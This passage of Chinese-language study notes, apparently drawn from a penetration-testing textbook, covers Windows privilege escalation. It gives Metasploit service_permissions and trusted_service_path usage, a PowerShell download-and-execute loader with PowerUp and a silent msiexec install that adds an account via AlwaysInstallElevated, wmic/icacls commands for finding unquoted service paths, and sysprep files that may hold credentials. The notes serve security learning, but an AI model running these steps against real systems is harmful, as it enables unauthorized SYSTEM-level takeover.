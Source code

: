 ```
```
+ metesploit下实战利用
> service_permissions模块使用两种方法来获取system权限,如果meterpreter以管理员权限运行,该模块会尝试创建并运行一个新的服务.如果当前权限不允许创建服务,该模块会判断那些服务的文件或者文件夹的权限有问题,并允许对其进行劫持.在创建服务或者劫持已经存在的服务时,该模块会创建一个可执行程序,其文件名和安装路径都是随机的
> AGGRESSIVE选项为false时(默认),该模块在第一次提全成功后就会停止工作
`exploit/windows/local/service_permissions`
### 4.2.2 注册表键AlwayslnstallElevated
> 注册表键AlwayslnstallElevated是一个策略设置项,windows允许低权限用户一system权限运行安装文件,如果启用此策略设置项,那么任何权限的用户都能以NT AUTHORITY\SYSTEM权限来安装恶意的MSI文件
+ pathAlwayslnstallElevated漏洞产生原因(182页)
原因:用户开启了windows installer特权安装功能
+ PowerUP下的实战利用
```powershell
//导入powerup.ps1
powershell.exe -nop -exec bypass IEX (New-Object Net.WebClient).DownLoadString('C:/powerup.ps1')
//检测注册表键值是否被设置
Get-Registryalwaysinstallelevated
//使用write-useraddmsi模块生成添加账户的msi文件(useradd.msi)
Write-UserAddMsi
//以普通用户权限运行useradd.msi
msiexec /qn /i /quiet useradd.msi
// /quite:安装过程中禁止向用户发送消息 /qu:不使用GUI /i:安装程序
```
### 4.2.3 可信任服务路径漏洞
+ Trusted service paths漏洞产生原因(184页)
+ metesploit下的实战利用
```
use exploit/windows/local/trusted_service_path
set payload ......
set AutoRunScript migrate -f
```
> 反弹的新的meterpreter会很快中断(原因186页),可以使用set AutoRunScript migrate -f自动迁移进程
+ 手动实战利用
//列出机器中搜有没有被引号引起来的服务的路径
`wmic service get name,displayname,pathname,startmode | findstr /i "Auto" | findstr /i /v "C:\Windows\\" | findstr /i /v """`
//使用windows内置工具icacls检查目录权限,此处使用C:\Program Files做例子
`icacls "C:\Program Files"`
|perm(权限掩码)|说明|
|----|----|
|Everyone |所有用户对这个文件夹都有完全控制权限|
|(M) |修改|
|(F) |完全控制|
|(CI) |从属容器将继承访问控制项|
|(OI) |从属文件将继承访问控制项|
> Everyone:(OI)(CI)(F)  的意思是,对文件夹,用户有读写删除其下文件. 删除其子目录的权限
确认目标机器中存在此漏洞后,把要上传的程序重命名并放置在存在此漏洞且可写的目录下
```cmd
//停止服务
sc stop sercive_name
//启动服务
sc start service_name
```
### 4.2.4 自动安装配置文件
+ 原理
利用网络管理员的脚本化批量部署方法的配置文件
部分文件列举
> C:\sysprep.inf
> C:\sysprep\sysprep.xml